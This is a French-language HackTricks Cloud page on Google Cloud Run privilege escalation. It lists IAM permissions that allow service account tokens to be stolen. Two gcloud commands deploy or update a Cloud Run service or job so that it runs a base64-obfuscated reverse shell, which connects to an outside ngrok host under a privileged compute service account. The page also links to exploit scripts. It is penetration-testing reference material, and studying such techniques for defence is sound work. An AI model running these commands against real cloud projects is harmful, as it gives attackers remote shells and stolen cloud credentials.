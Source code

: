 # GCP - Exécution de Privesc

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**dépôts Github de HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## run

### `run.services.create`, `iam.serviceAccounts.actAs`

Similaire à la méthode _cloudfunctions.functions.create_, cette méthode crée un **nouveau service Cloud Run** qui, lorsqu'il est invoqué, **renvoie le jeton d'accès du compte de service** en accédant à l'API de métadonnées du serveur sur lequel il s'exécute. Un service Cloud Run sera déployé et une requête peut être effectuée pour obtenir le jeton.

Les **autorisations suivantes sont requises** pour cette méthode :

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **OU** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

Cette méthode utilise une image Docker incluse qui doit être construite et hébergée pour être exploitée correctement. L'image est conçue pour indiquer à Cloud Run de répondre avec le jeton d'accès du compte de service lorsqu'une requête HTTP est effectuée.

Le script d'exploitation pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) et l'image Docker peut être trouvée [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Pour une raison quelconque, lors de l'utilisation de `gcloud run deploy` au lieu de simplement créer le service, **il a besoin de l'autorisation de mise à jour**. Vérifiez un [**exemple ici**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update`, `iam.serviceAccounts.actAs`

Comme le précédent, mais en mettant à jour un service

```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```

### `run.services.setIamPolicy`

Donnez-vous les autorisations précédentes.

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

Lancez un travail avec un shell inversé pour voler le compte de service indiqué dans la commande. Vous pouvez trouver un [**exploit ici**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`, `run.jobs.run`, `iam.serviceaccounts.actAs`, (`run.jobs.get`)

Similaire au précédent, il est possible de **mettre à jour un travail et de mettre à jour le compte de service**, la **commande** et de l'**exécuter** :

```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```

### `run.jobs.setIamPolicy`

Donnez-vous les autorisations précédentes.

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**dépôts Github de HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
